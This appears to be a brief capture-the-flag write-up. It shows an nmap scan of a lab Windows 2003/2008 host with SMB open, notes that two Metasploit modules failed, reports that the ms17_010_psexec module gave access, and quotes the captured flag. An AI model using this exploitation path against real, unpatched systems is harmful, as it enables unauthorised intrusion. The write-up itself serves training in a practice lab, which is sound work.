1. Nmap it
```
└─$ sudo nmap 192.168.197.139 -T5 -sS -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-19 12:32 EST
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 192.168.197.139
Host is up (0.00016s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 2003 or 2008 microsoft-ds
MAC Address: 00:0C:29:56:E2:C4 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2003

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.86 seconds
```
2. Port 445 , legacy system tried windows/smb/ms08_067_netapi doesnt work try windows/smb/ms17_010_eternal_blue doesntwork also
3. msfconsole windows/smb/ms17_010_psexec works
4. go to C:\Documents and Settings\Administrator\flag,txt
5. cat it n get GCTF23{L3g@cy_Syst3ms_@re_H@rd_t0_P@tch}
